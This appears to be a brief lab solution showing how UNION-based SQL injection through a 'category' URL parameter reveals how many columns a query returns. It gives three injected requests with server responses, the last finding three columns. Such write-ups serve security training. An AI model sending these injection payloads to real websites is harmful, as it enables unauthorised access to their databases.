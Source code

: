 # Determining the number of columns returned by the query

`/filter?category=Gifts'+UNION+SELECT+NULL`: Internal Server Error

`/filter?category=Gifts'+UNION+SELECT+NULL,+NULL`: Internal Server Error

`/filter?category=Gifts'+UNION+SELECT+NULL,+NULL,+NULL--` Ok (3 columns)

Solved.

